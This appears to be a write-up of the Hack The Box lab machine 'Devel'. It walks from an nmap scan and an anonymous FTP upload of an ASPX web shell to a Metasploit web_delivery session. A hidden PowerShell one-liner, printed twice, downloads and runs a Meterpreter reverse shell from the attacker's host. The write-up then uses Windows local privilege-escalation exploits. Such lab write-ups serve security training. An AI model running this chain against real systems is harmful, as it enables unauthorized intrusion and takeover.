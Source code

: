 ### Information Gathering

#### Nmap scan

nmap -sC -sV -oA -nmap 10.10.10.5

```
# Nmap 7.40 scan initiated Fri Jul 21 04:29:30 2017 as: nmap -sV -sC -oA nmap 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.33s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 07-24-17  06:58AM                 2940 finalwtf.aspx
| 07-24-17  07:17AM                 2932 htw.aspx
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 21 04:30:06 2017 -- 1 IP address (1 host up) scanned in 35.83 seconds
```

ftp-anon: Anonymous FTP login allowed - can be used to upload the web shell \(aspx\)

We can see here that it uses the Microsoft-IIS/7.5 which means the web server is powered by ASP

#### Exploitation and Gaining Access

Aspx web shell used:

[https://github.com/unbaiat/maliciouspieceofcodethatcanbeuploadedtoasitetogainaccesstofilesstoredonthatsite/blob/master/aspxshell.aspx](https://github.com/unbaiat/maliciouspieceofcodethatcanbeuploadedtoasitetogainaccesstofilesstoredonthatsite/blob/master/aspxshell.aspx)

After uploading the web shell, I accessed the web shell on the web browser.

Since I have a web shell or backdoor installed, I can now execute some commands. For example i can run a powershell command to download and execute the meterpreter reverse tcp. To execute the meterpreter reverse shell, I fired up the metasploit console and searched the web\_delivery exploit.

**Actual commands here:**

    kaipowered@debian:~/Documents/HTB/Devel$ msfconsole


                                       .,,.                  .
                                    .\$$$$$L..,,==aaccaacc%#s$b.       d8,    d8P
                         d8P        #$$$$$$$$$$$$$$$$$$$$$$$$$$$b.    `BP  d888888p
                      d888888P      '7$$$$\""""''^^`` .7$$$|D*"'```         ?88'
      d8bd8b.d8p d8888b ?88' d888b8b            _.os#$|8*"`   d8P       ?8b  88P
      88P`?P'?P d8b_,dP 88P d8P' ?88       .oaS###S*"`       d8P d8888b $whi?88b 88b
     d88  d8 ?8 88b     88b 88b  ,88b .osS$$$$*" ?88,.d88b, d88 d8P' ?88 88P `?8b
    d88' d88b 8b`?8888P'`?8b`?88P'.aS$$$$Q*"`    `?88'  ?88 ?88 88b  d88 d88
                              .a#$$$$$$"`          88b  d8P  88b`?8888P'
                           ,s$$$$$$$"`             888888P'   88n      _.,,,ass;:
                        .a$$$$$$$P`               d88P'    .,.ass%#S$$$$$$$$$$$$$$'
                     .a$###$$$P`           _.,,-aqsc#SS$$$$$$$$$$$$$$$$$$$$$$$$$$'
                  ,a$$###$$P`  _.,-ass#S$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$####SSSS'
               .a$$$$$$$$$$SSS$$$$$$$$$$$$$$$$$$$$$$$$$$$$SS##==--""''^^/$$$$$$'
    _______________________________________________________________   ,&$$$$$$'_____
                                                                     ll&&$$$$'
                                                                  .;;lll&&&&'
                                                                ...;;lllll&'
                                                              ......;;;llll;;;....
                                                               ` ......;;;;... .  .


           =[ metasploit v4.15.5-dev-                         ]
    + -- --=[ 1674 exploits - 959 auxiliary - 294 post        ]
    + -- --=[ 489 payloads - 40 encoders - 9 nops             ]
    + -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

    msf > 
    msf > search web_delivery

    Matching Modules
    ================

       Name                                                   Disclosure Date  Rank    Description
       ----                                                   ---------------  ----    -----------
       exploit/multi/script/web_delivery                      2013-07-19       manual  Script Web Delivery
       exploit/windows/misc/regsvr32_applocker_bypass_server  2016-04-19       manual  Regsvr32.exe (.sct) Application Whitelisting Bypass Server


    msf > use exploit/multi/script/web_delivery
    msf exploit(web_delivery) > show options

    Module options (exploit/multi/script/web_delivery):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT  8080             yes       The local port to listen on.
       SSL      false            no        Negotiate SSL for incoming connections
       SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                   no        The URI to use for this exploit (default is random)


    Payload options (python/meterpreter/reverse_tcp):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST                   yes       The listen address
       LPORT  4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Python


    msf exploit(web_delivery) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Python
       1   PHP
       2   PSH


    msf exploit(web_delivery) > set target 2
    target => 2
    msf exploit(web_delivery) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(web_delivery) > run
    [*] Started reverse TCP handler on 0.0.0.0:4444 
    [*] Using URL: http://0.0.0.0:8080/2HUTvO3SZKKZ
    [*] Local IP: http://192.168.8.2:8080/2HUTvO3SZKKZ
    [*] Server started.
    [*] Run the following command on the target machine:
    powershell.exe -nop -w hidden -c $J=new-object net.webclient;$J.proxy=[Net.WebRequest]::GetSystemWebProxy();$J.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $J.downloadstring('http://192.168.8.1:8080/2HUTvO3SZKKZ');

I copied and pasted the powershell command to the web shell then poof we got a shell.

```
powershell.exe -nop -w hidden -c $J=new-object net.webclient;$J.proxy=[Net.WebRequest]::GetSystemWebProxy();$J.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $J.downloadstring('http://192.168.8.1:8080/2HUTvO3SZKKZ');
```

#### Privilege Escalation

After I got a shell, I searched the "suggester" from metasploit to use and automate and search the available vulnerabilities and their exploits on the vulnerable machine.

```
msf exploit(web_delivery) > search suggester

Matching Modules
================

   Name                                      Disclosure Date  Rank    Description
   ----                                      ---------------  ----    -----------
   post/multi/recon/local_exploit_suggester                   normal  Multi Recon Local Exploit Suggester


msf exploit(web_delivery) >
```

These are the available exploits found on the vulnerable machine.

```
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 37 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

I used the schlamperei to gain administrator access on the vulnerable machine.

```
msf > use exploit/windows/local/ms13_053_schlamperei
```

And then I got an Administrator access on the machine. :\)

